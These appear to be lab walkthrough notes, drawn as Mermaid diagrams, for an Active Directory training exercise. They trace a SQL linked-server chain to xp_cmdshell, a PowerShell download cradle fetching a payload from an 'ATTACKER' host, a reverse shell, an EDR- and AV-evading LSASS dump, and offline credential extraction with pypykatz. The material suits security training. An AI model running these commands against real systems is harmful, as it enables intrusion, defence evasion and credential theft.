


# eu-sqlx — SQL Linked Server Chain, LSASS Dump & Credential Extraction

## Attack Path

```mermaid
flowchart TD
    START(["🔑 Access to dcorp-mssql\nor dcorp-mgmt SQL"])

    subgraph chain["Phase 1: SQL Linked Server Chain"]
        L1["Enumerate links from dcorp-mssql\nGet-SQLServerLinkCrawl\n-Instance dcorp-mssql"]
        L2["Chain discovered:\ndcorp-mssql → dcorp-sql1\ndcorp-sql1 → dcorp-mgmt\ndcorp-mgmt → eu-sqlx"]
        L3["Test xp_cmdshell through chain\nInvoke-SQLOSCmd -Instance dcorp-mssql\n-Query 'whoami' -QueryTarget eu-sqlx"]
        L4["Enable xp_cmdshell if needed\nEXEC sp_configure 'xp_cmdshell', 1\nRECONFIGURE"]
        L5["Execute OS command on eu-sqlx\nvia nested OPENQUERY/EXEC chain"]
    end

    subgraph shell["Phase 2: Get Shell on eu-sqlx"]
        S1["PowerShell download cradle\nxp_cmdshell 'powershell -c IEX(New-Object\nNet.WebClient).DownloadString(''http://ATTACKER/payload.ps1'')'\nvia SQL link chain"]
        S2["OR: Copy tool to share\nWrite reverse shell to eu-sqlx\nvia SQL file operations"]
        S3["Invoke-PowerShellTcpOneLine\nReverse shell connects back\nto student machine"]
        S4["✅ Shell on eu-sqlx\n(as SQL service account)"]
    end

    subgraph lsass["Phase 3: LSASS Dump (with Evasion)"]
        LA1["Standard LSASS dump blocked by EDR/AV\nNeed evasion technique"]
        LA2["Method: minidumpdotnet.dll\nLoaded via custom .NET assembly\nDirect NtReadVirtualMemory syscall\nBypasses common EDR hooks"]
        LA3["Run minidumpdotnet\n[System.Reflection.Assembly]::Load(minidumpdotnet bytes)\nInvoke dump against lsass.exe"]
        LA4["Dump file written to disk\nC:\\Windows\\Temp\\lsass.dmp"]
        LA5["Flip dump bytes: reverse.exe\nreverse.exe lsass.dmp lsass_flipped.dmp\nAV signature bypass via byte reversal"]
        LA6["Exfil flipped dump\nCopy to attacker machine\nReverse again to restore"]
    end

    subgraph parse["Phase 4: Parse Dump & Extract Creds"]
        P1["On attacker machine:\nReverse the flipped dump\nrestore original format"]
        P2["pypykatz / Mimikatz offline\npypykatz lsa minidump lsass.dmp\nOR SafetyKatz offline mode"]
        P3["Extract: dbadmin credentials\nPlaintext or NTLM hash\nfrom eu-sqlx LSASS memory"]
        P4["✅ dbadmin creds\n(valid on eu-sqlx / eu domain)"]
    end

    START --> L1 --> L2 --> L3 --> L4 --> L5
    L5 --> S1 & S2
    S1 & S2 --> S3 --> S4
    S4 --> LA1 --> LA2 --> LA3 --> LA4 --> LA5 --> LA6
    LA6 --> P1 --> P2 --> P3 --> P4

    style START fill:#4CAF50,color:#fff
    style S4 fill:#FF9800,color:#fff
    style P4 fill:#f44336,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((eu-sqlx))
    SQL Link Chain
      Discovery
        Get-SQLServerLinkCrawl
        sys.servers enumeration
      Path
        dcorp-mssql
        dcorp-sql1
        dcorp-mgmt
        eu-sqlx
      xp_cmdshell
        Enable if needed
        sp_configure
        Nested EXEC syntax
    Shell Access
      PowerShell cradle
        IEX DownloadString
        Via SQL command
      Reverse shell
        Invoke-PowerShellTcpOneLine
        Connect back to attacker
    LSASS Dump Evasion
      Problem
        EDR hooks LSASS access
        Standard Mimikatz blocked
      minidumpdotnet.dll
        .NET assembly
        NtReadVirtualMemory direct
        No EDR hook bypass needed
      reverse.exe
        Flip dump bytes
        Bypass AV file scan
        Restore on attacker side
    Credential Extraction
      pypykatz
        Parse offline dump
        Python-based
      dbadmin credentials
        Extracted from LSASS
        eu-sqlx / eurocorp access
```
